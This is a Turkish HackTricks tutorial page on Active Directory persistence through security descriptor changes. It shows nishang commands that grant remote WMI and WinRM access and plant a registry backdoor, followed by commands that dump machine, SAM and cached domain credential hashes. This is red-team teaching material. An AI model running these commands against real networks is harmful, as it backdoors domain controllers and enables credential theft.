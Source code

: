 # Güvenlik Tanımlayıcıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Güvenlik Tanımlayıcıları

[Belgelerden](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language): Güvenlik Tanımlayıcı Tanım Dili (SDDL), bir güvenlik tanımlayıcısını tanımlamak için kullanılan formatı tanımlar. SDDL, DACL ve SACL için ACE dizelerini kullanır: `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;`

**Güvenlik tanımlayıcıları**, bir **nesnenin** başka bir **nesne üzerindeki** **izinlerini** **saklamak** için kullanılır. Eğer bir nesnenin **güvenlik tanımlayıcısında** sadece **küçük bir değişiklik** yapabilirseniz, o nesne üzerinde, ayrıcalıklı bir grubun üyesi olmanıza gerek kalmadan, çok ilginç ayrıcalıklar elde edebilirsiniz.

Bu nedenle, bu kalıcılık tekniği, belirli nesneler üzerinde gereken her ayrıcalığı kazanma yeteneğine dayanır; böylece genellikle admin ayrıcalıkları gerektiren bir görevi admin olmadan gerçekleştirebilirsiniz.

### WMI'ye Erişim

Bir kullanıcıya **uzaktan WMI çalıştırma** erişimi verebilirsiniz [**bunu kullanarak**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1):
```bash
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc –namespace 'root\cimv2' -Verbose
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc–namespace 'root\cimv2' -Remove -Verbose #Remove
```
### WinRM Erişimi

**Bir kullanıcıya winrm PS konsoluna erişim verin** [**bunu kullanarak**](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)**:**
```bash
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Verbose
Set-RemotePSRemoting -UserName student1 -ComputerName <remotehost> -Remove #Remove
```
### Hash'lara uzaktan erişim

**Kayıt defterine** erişin ve **hash'leri dökün**, böylece **DAMP** kullanarak bir **Reg arka kapısı oluşturun**, böylece istediğiniz zaman **bilgisayarın hash'ini**, **SAM**'i ve bilgisayardaki herhangi bir **önbelleklenmiş AD** kimlik bilgilerini alabilirsiniz. Bu nedenle, bu izni bir **normal kullanıcıya bir Alan Denetleyici bilgisayarı** karşısında vermek çok faydalıdır:
```bash
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
Check [**Silver Tickets**](silver-ticket.md) bilgisayar hesabının hash'ini bir Domain Controller üzerinde nasıl kullanabileceğinizi öğrenmek için.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
